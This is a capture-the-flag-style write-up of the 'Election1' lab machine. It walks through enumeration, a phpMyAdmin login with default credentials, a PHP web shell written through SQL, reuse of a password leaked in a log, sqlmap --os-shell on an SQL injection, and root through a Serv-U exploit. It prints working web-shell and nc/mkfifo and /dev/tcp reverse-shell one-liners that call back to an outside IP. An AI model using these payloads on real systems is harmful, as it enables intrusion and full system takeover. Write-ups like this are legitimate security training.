## Election1: Writeup

This machine is vulnerable in multiple ways. I will explore the ways that I found.

Nmap reveals two ports open:

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20d1ed84cc68a5a786f0dab8923fd967 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCoqt4FP0lhkJ0tTiMEUrVqRIcNKgQK22LJCOIVa1yoZf+bgOqsR4mIDjgpaJm/SDrAzRhVlD1dL6apkv7T7iceuo5QDXYvRLWS+PfsEaGwGpEVtpTCl/BjDVVtohdzgErXS69pJhgo9a1yNgVrH/W2SUE1b36ODSNqVb690+aP6jjJdyh2wi8GBlNMXBy6V5hR/qmFC55u7F/z5oG1tZxeZpDHbgdM94KRO9dR0WfKDIBQGa026GGcXtN10wtui2UHo65/6WgIG1LxgjppvOQUBMzj1SHuYqnKQLZyQ18E8oxLZTjc6OC898TeYMtyyKW0viUzeaqFxXPDwdI6G91J
|   256 7889b3a2751276922af98d27c108a7b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO9gF8Fv+Uox9ftsvK/DNkPNObtE4BiuaXjwksbOizwtXBepSbhUTyL5We/fWe7x62XW0CMFJWcuQsBNS7IyjsE=
|   256 b8f4d661cf1690c5071899b07c70fdc0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINfCRDfwNshxW7uRiu76SMZx2hg865qS6TApHhvwKSH5
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking out the webroot, it's just the default page for Apache.



Fuzz the web root:

```bash
$ ffuf -u http://192.168.216.211/FUZZ -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.216.211/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 42ms]
    * FUZZ:

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 42ms]
    * FUZZ: .hta

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 45ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 46ms]
    * FUZZ: .htaccess

[Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 41ms]
    * FUZZ: index.html

[Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 43ms]
    * FUZZ: javascript

[Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 41ms]
    * FUZZ: phpmyadmin

[Status: 200, Size: 95490, Words: 4715, Lines: 1170, Duration: 50ms]
    * FUZZ: phpinfo.php

[Status: 200, Size: 30, Words: 1, Lines: 5, Duration: 44ms]
    * FUZZ: robots.txt

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 44ms]
    * FUZZ: server-status
```

If I check out `robots.txt`, I find several endpoints:

```bash
$ curl -s http://192.168.216.211/robots.txt
admin
wordpress
user
election
```

Only `election` is valid here.

### Shell via PHPMyAdmin

Before checking out the `election` endpoint, I'll check out `phpmyadmin`. Testing some default credentials, `root:toor` grants me access.

I can now create a PHP shell with MySQL:

`SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"`



I hit go, then I can get code execution by visiting http://192.168.171.211/shell.php:





```bash
$ curl -s http://192.168.171.211/shell.php?cmd=whoami
www-data
```

I can now get a shell with this command:

```bash
$ curl -s -G http://192.168.171.211/shell.php --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.5 443 >/tmp/f'
```

### Shell as Love via SSH

Fuzzing the `election` endpoint, I find `admin`, and fuzzing a bit more after that, I find `logs`:

```bash
$ gobuster dir -u http://192.168.171.211/election/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.171.211/election/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/15 11:17:32 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/admin                (Status: 301) [Size: 327] [--> http://192.168.171.211/election/admin/]
/data                 (Status: 301) [Size: 326] [--> http://192.168.171.211/election/data/]
/index.php            (Status: 200) [Size: 7003]
/js                   (Status: 301) [Size: 324] [--> http://192.168.171.211/election/js/]
/languages            (Status: 301) [Size: 331] [--> http://192.168.171.211/election/languages/]
/lib                  (Status: 301) [Size: 325] [--> http://192.168.171.211/election/lib/]
/media                (Status: 301) [Size: 327] [--> http://192.168.171.211/election/media/]
/themes               (Status: 301) [Size: 328] [--> http://192.168.171.211/election/themes/]
Progress: 4595 / 4615 (99.57%)

$ ffuf -u http://192.168.216.211/election/admin/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.216.211/election/admin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4712ms]
    * FUZZ: .htaccess

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4716ms]
    * FUZZ: .htpasswd

[Status: 301, Size: 332, Words: 20, Lines: 10, Duration: 43ms]
    * FUZZ: ajax

[Status: 301, Size: 338, Words: 20, Lines: 10, Duration: 36ms]
    * FUZZ: components

[Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 40ms]
    * FUZZ: css

[Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 48ms]
    * FUZZ: img

[Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 35ms]
    * FUZZ: inc

[Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 43ms]
    * FUZZ: js

[Status: 301, Size: 332, Words: 20, Lines: 10, Duration: 42ms]
    * FUZZ: logs

[Status: 301, Size: 335, Words: 20, Lines: 10, Duration: 46ms]
    * FUZZ: plugins
```

In `logs`, I find a single file, containing apparent creds:



```bash
$ curl -s http://192.168.171.211/election/admin/logs/system.log
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-03-15 20:19:45] Love has been logged in from Unknown IP on Firefox (Linux).
```

If I try to ssh with these creds, I can:

```bash
$ ssh love@192.168.171.211
The authenticity of host '192.168.171.211 (192.168.171.211)' can't be established.
ED25519 key fingerprint is SHA256:z1Xg/pSBrK8rLIMLyeb0L7CS1YL4g7BgCK95moiAYhQ.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.211' (ED25519) to the list of known hosts.
love@192.168.171.211's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-120-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

471 packages can be updated.
358 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Apr  9 23:19:28 2020 from 192.168.1.5
love@election:~$ whoami
love
```

### Shell via SQLi in eLection App

Fuzzing the `election` endpoint, I find a curious PHP file, `card.php`:

```bash
$ gobuster dir -u http://192.168.171.211/election/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.171.211/election/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/15 10:46:01 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 7003]
/.htaccess            (Status: 403) [Size: 280]
/.                    (Status: 200) [Size: 7003]
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htm                 (Status: 403) [Size: 280]
/.htpasswds           (Status: 403) [Size: 280]
/card.php             (Status: 200) [Size: 1935]
```

It contains binary encoded data. 



I can decode this in CyberChef:



I now have creds to something:
```
user:1234
pass:Zxc123!@#
```
This is what the eLection app landing page looks like:


If I search for vulnerabilities for eLection, I find one that leverages SQLi in an authenticated session:

```bash
$ searchsploit election
-----------------------------------------
 Exploit Title                          |  Path
----------------------------------------
<SNIP>
eLection 2.0 - 'id' SQL Injection              | php/webapps/48122.txt
<SNIP>
```

The main contents of this exploit:



With my new-found creds, I can login as user 1234 at /election/admin. 



I then follow the rest of the vulnerability to capture the POST request and hand it over to `sqlmap` to get code execution:



Clicking on 'Candidates', then clicking on the edit icon and capturing the request gets me this, which I save and pass on to `sqlmap`:



```bash
$ sqlmap -r req.txt --level=5 --risk=3 --os-shell -p id
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:04:04 /2023-03-15/

[11:04:04] [INFO] parsing HTTP request from 'req.txt'
[11:04:04] [INFO] resuming back-end DBMS 'mysql'
[11:04:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: aksi=fetch&id=76 AND 3299=3299

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aksi=fetch&id=76 AND (SELECT 3545 FROM (SELECT(SLEEP(5)))lTrF)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: aksi=fetch&id=-4039 UNION ALL SELECT NULL,CONCAT(0x7162787171,0x77456d6a454c4d6c504d7951686d7a477a5451477a6c6c6b7153566c4d6c694d63624976456e6850,0x71707a7871),NULL,NULL,NULL-- -
---
[11:04:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:04:04] [INFO] going to use a web backdoor for command prompt
[11:04:04] [INFO] fingerprinting the back-end DBMS operating system
[11:04:04] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[11:04:09] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
<SNIP>
[11:04:13] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[11:04:13] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://192.168.171.211:80/tmpubcpj.php
[11:04:13] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://192.168.171.211:80/tmpbfggz.php
[11:04:13] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] a
command standard output: 'www-data'
```

I can now transfer a PHP shell to the web root as before, then execute it to get a shell as www-data, then collect local.txt:

```bash
www-data@election:/home/love$ whoami
www-data
www-data@election:/home/love$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@election:/home/love$ hostname
election
www-data@election:/home/love$ hostname -I
192.168.216.211
www-data@election:/home/love$ cat local
0b96babda79f6eeb94c8c28721d39129
```

### Privilege Escalation

Privesc can be achieved through either the user love or www-data. Running Linpeas, I see that the machine is vulnerable to PwnKit, which is the simplest way to root. However, there is an interesting SUID binary that is vulnerable to local privilege escalation: Serv-U

```bash
                               ╔═══════════════════╗
═══════════════════════════════╣ Interesting Files ╠═══════════════════════════════
                               ╚═══════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 22K Jun 28  2019 /usr/bin/arping
-rwsr-xr-x 1 root root 59K Mar 23  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 40K Mar 23  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 44K Mar 23  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 75K Mar 23  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 75K Mar 23  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-- 1 root dip 374K Feb 11  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 6.1M Nov 29  2017 /usr/local/Serv-U  --->  FTP_Server<15.1.7(CVE-2019-12181)/Serv-U
```

`searchploit` provides the necessary file:

```bash
$ searchsploit serv-u
<SNIP>
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)           | linux/local/47009.c
```

Uploading this to the machine and compiling it grants a root session. However, I can only execute commands within a single directory. This is easily remedied by just giving it a command for another reverse shell, which is fully interactive:

```bash
love@election:/tmp$ gcc 47009.c -o pe && ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# cd root
/bin/sh: 1: cd: can't cd to root
# ls
47009.c
netplan_foj4ro4o
netplan_m2de1815
pe
systemd-private-ae93210f14714b79ba39b42e2ef7d538-apache2.service-xkdn4b
systemd-private-ae93210f14714b79ba39b42e2ef7d538-bolt.service-xEwBqY
systemd-private-ae93210f14714b79ba39b42e2ef7d538-colord.service-TNYWBH
systemd-private-ae93210f14714b79ba39b42e2ef7d538-ModemManager.service-qwQDfV
systemd-private-ae93210f14714b79ba39b42e2ef7d538-rtkit-daemon.service-Tw1zML
systemd-private-ae93210f14714b79ba39b42e2ef7d538-systemd-resolved.service-8AWzsk
vmware-root_422-591958401
# which nc
/bin/nc
# sh -i >& /dev/tcp/192.168.45.5/443 0>&1
/bin/sh: 5: Syntax error: Bad fd number
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.5 443 >/tmp/f
rm: cannot remove '/tmp/f': No such file or directory

$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.216.211] 56504
# whoami
root
# cd /root
# ls
Desktop
Documents
Downloads
Music
Pictures
proof.txt
Public
Templates
Videos
# cat proof.txt
f4e12bf037f6e4eec562a5bb9c197622
# hostname -I
192.168.216.211
```

